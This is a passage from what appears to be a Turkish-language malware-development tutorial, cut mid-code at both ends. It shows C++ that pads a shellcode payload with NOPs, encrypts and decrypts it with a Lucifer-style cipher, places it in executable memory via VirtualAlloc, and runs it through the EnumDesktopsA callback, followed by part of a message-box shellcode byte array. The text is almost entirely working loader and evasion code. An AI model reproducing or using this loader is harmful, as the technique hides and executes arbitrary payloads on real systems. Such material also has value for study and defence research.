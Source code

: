 ```cpp
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (block_size - my_payload_len % block_size) % 
  block_size;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs (0x90)
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // encrypt the payload
  lucifer_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // decrypt the payload
  lucifer_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Her zamanki gibi, burada `meow-meow` mesaj kutusu payload kullanılmıştır:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
```